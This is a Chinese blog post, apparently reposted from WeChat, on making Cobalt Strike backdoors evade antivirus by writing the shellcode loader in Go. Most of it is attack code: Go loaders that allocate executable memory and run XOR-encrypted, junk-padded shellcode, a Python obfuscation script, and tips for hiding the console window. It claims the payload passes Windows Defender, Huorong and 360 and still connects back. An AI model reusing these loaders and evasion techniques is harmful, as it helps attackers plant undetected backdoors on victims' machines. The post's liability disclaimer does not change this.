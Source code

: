> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/QXOkm9wFurnpqfbtCCe6mA)

0x01 go 免杀  
  
  
  
  
  
  
  

==================================

由于各种 av 的限制，我们在后门上线或者权限持久化时很容易被杀软查杀，容易引起目标的警觉同时暴露了自己的 ip。尤其是对于 windows 目标，一个免杀的后门极为关键，如果后门文件落不了地，还怎么能进一步执行呢？关于后门免杀，网上的介绍已经很多了，原理其实大同小异。看了很多网上的案例，发现网上比较多都是用 C/C++ 和 python 来进行免杀，但是很多已经被杀软看的死死的，  
非常容易就被识别出来了，那我想能不能用一种稍微小众一点的语言来写免杀呢，这里就不得不说到 go 语言。  
Go 语言专门针对多处理器系统应用程序的编程进行了优化，使用 Go 编译的程序可以媲美 C 或 C++ 代码的速度，而且更加安全、支持并行进程。而且 go 语言支持交叉编译可以跨平台。  
本文基于 cobalt strike 生成的. c 文件来进行免杀测试。

0x02 免杀测试
=========

首先生成成一个. C 文件

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM6siaoVSIZb2gkvagF5E6ZClJKsFCaWMbCrKvGaNCkjO36QwrRy4KMKTia4Z2jRibTk3lb79TBbOOyvw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM6siaoVSIZb2gkvagF5E6ZClrNAPUpqDnVNmVHIolGkb9HfJrLLjPMLyTnZa6EzbzgSC280qhlIibrw/640?wx_fmt=png)

这里先贴一个最原始的 go 加载代码

```
package main

import (
  "syscall"
  "unsafe"
)

const (
  MEM_COMMIT             = 0x1000
  MEM_RESERVE            = 0x2000
  PAGE_EXECUTE_READWRITE = 0x40 // 区域可以执行代码，应用程序可以读写该区域。
)

var (
  kernel32      = syscall.MustLoadDLL("kernel32.dll")
  ntdll         = syscall.MustLoadDLL("ntdll.dll")
  VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")
  RtlCopyMemory = ntdll.MustFindProc("RtlCopyMemory")
)

func main() {
  xor_shellcode := []byte{0x89, 0x3d, 0xf6, 0x91, 0x85, 0x9d, 0xb9, 0x75, 0x75, 0x75, 0x34, 0x24, 0x34, 0x25, 0x27, 0x24, 0x23, 0x3d, 0x44, 0xa7, 0x10, 0x3d, 0xfe, 0x27, 0x15, 0x3d, 0xfe...}

  addr, _, err := VirtualAlloc.Call(0, uintptr(len(xor_shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
  if err != nil && err.Error() != "The operation completed successfully." {
    syscall.Exit(0)
  }
  _, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&xor_shellcode[0])), uintptr(len(xor_shellcode)))
  if err != nil && err.Error() != "The operation completed successfully." {
    syscall.Exit(0)
  }
  syscall.Syscall(addr, 0, 0, 0, 0)
}
```

这里注意：因为杀软对直接加载 shellcode 的一般都是落地秒，所以我们得换种方式，将 shellcode 混淆加密后再解密来使用。  
加密和混淆经常使用的有异或加密，AES 加密，或者添加随机字符等。  
但是随着现在使用这种方法的人越来越多，杀软检测力度也越来越大，所以现在混淆的关键就是方式尽量要小众，或者自己写加密方法。  
这里有个好的地方就是，现在网上实现加密混淆操作的大都是使用 C/C++ 来完成的，有些比较好的思路用 C/C++ 实现可能会被杀软拦截，但是如果把它移植到 go 上面说不定就有不一样的效果。  
先从整个 shellcode 混淆的脚本

```
def xor(shellcode, key):
    new_shellcode = ""
    key_len = len(key)
    # 对shellcode的每一位进行xor亦或处理
    for i in range(0, len(shellcode)):
        s = ord(shellcode[i])
        p = ord((key[i % key_len]))
        s = s ^ p  # 与p异或，p就是key中的字符之一
        s = chr(s) 
        new_shellcode += s
    return new_shellcode

def random_decode(shellcode):
    j = 0
    new_shellcode = ""
    for i in range(0,len(shellcode)):
        if i % 2 == 0:
            new_shellcode[i] = shellcode[j]
            j += 1

    return new_shellcode

def add_random_code(shellcode, key):
    new_shellcode = ""
    key_len = len(key)
    # 每个字节后面添加随机一个字节，随机字符来源于key
    for i in range(0, len(shellcode)):
        #print(ord(shellcode[i]))
        new_shellcode += shellcode[i]
        # print("&"+hex(ord(new_shellcode[i])))
        new_shellcode += key[i % key_len]

        #print(i % key_len)
    return new_shellcode

# 将shellcode打印输出
def str_to_hex(shellcode):
    raw = ""
    for i in range(0, len(shellcode)):
        s = hex(ord(shellcode[i])).replace("0x",',0x')
        raw = raw + s
    return raw

if __name__ == '__main__':
    shellcode = ""
    # 这是异或和增加随机字符使用的key
    key = "iqe"
    print(shellcode[0])
    print(len(shellcode))
    # 首先对shellcode进行异或处理
    shellcode = xor(shellcode, key)
    print(len(shellcode))

    # 然后在shellcode中增加随机字符
    shellcode = add_random_code(shellcode, key)

    # 将shellcode打印出来
    print(str_to_hex(shellcode))
```

加密 shellcode 后，再使用 go 语言加载混淆后的 shellcode，先解密再执行。

```
package main

import (
  "fmt"
  "syscall"
  "time"
  "unsafe"
)

const (
  MEM_COMMIT             = 0x1000
  MEM_RESERVE            = 0x2000
  PAGE_EXECUTE_READWRITE = 0x40 // 区域可以执行代码，应用程序可以读写该区域。

)

var (
  kernel32      = syscall.MustLoadDLL("kernel32.dll")
  ntdll         = syscall.MustLoadDLL("ntdll.dll")
  VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")
  RtlCopyMemory = ntdll.MustFindProc("RtlCopyMemory")
)

func main() {
  mix_shellcode := []byte{0x95,0x69,0x39,0x71,0xe6,0x65}
  var ttyolller []byte
  key := []byte("iqe")
  var key_size = len(key)
  var shellcode_final []byte
  var j = 0
  time.Sleep(2)
  // 去除垃圾代码
  fmt.Print(len(mix_shellcode))
  for i := 0; i < len(mix_shellcode); i++ {
    if (i % 2 == 0) {
      shellcode_final = append(shellcode_final,mix_shellcode[i])
      j += 1
    }
  }
  time.Sleep(3)
  fmt.Print(shellcode_final)
  // 解密异或
  for i := 0; i < len(shellcode_final); i++ {
    ttyolller = append(ttyolller, shellcode_final[i]^key[i % key_size])
  }
  time.Sleep(3)
  addr, _, err := VirtualAlloc.Call(0, uintptr(len(ttyolller)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
  if err != nil && err.Error() != "The operation completed successfully." {
    syscall.Exit(0)
  }
  time.Sleep(3)
  _, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&ttyolller[0])), uintptr(len(ttyolller)))
  if err != nil && err.Error() != "The operation completed successfully." {
    syscall.Exit(0)
  }
  syscall.Syscall(addr, 0, 0, 0, 0)
}
```

直接 go build 生成 exe 文件  
生成的文件大概有 2M，再经过 UPX 压缩后大概只有 1M，这比 python 生成的要小很多了。

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM6siaoVSIZb2gkvagF5E6ZClpkgxESIaF0PW94hib5VsodyxZG9hvdOwSthBgCd6IpqgRbxhdfH771Q/640?wx_fmt=png)

静态完美过 WindowsDefender，火绒和 360 全家桶

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM6siaoVSIZb2gkvagF5E6ZClibVRiapxAa4zrxstzhdw3Zzr1icArvcyZDxjaFwM0AApgp2Hic5HTsPcjA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM6siaoVSIZb2gkvagF5E6ZCla34Xav2UAwSj8sPv1HialgFGicABWuA0JtxzyKw2O1BfoRrNbcDy5f0A/640?wx_fmt=png)

可以正常上线

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM6siaoVSIZb2gkvagF5E6ZCl64bJhSQkmb0EWePsX4We7eIgNg13SGX9ibc1rw5S448An5l9Q26VGcw/640?wx_fmt=png)

后记
==

用 go 编译的 exe 文件执行后会弹出黑框这里有两个解决办法

*   在 initial_beacon 中设置 auto migrate，但还得连带把 initial sleep 设置成尽可能短
    
*   build 时添加操作选项：-ldflags="-H windowsgui"
    
*   公众号
    

最后  

-----

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**无害实验室拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的**